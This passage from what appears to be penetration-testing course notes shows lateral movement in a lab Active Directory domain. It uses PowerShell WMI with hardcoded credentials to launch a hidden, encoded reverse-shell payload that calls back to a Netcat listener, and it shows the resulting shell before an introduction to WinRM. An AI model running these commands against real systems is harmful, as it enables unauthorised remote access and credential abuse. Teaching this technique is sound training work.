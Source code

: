 After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse-shell payload:
``` PowerShell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```
+ We can conclude that the process creation has been successful and switch to our listener for a final confirmation:
``` Shell
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```

Nice! We indeed managed to move laterally and gain privileges as the _jen_ domain user on an internal server by abusing WMI features

#### WinRM
As an alternative method to WMI for remote management, WinRM can be employed for remote hosts management
+ WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS
+ It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as _winrs_ (Windows Remote Shell)


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname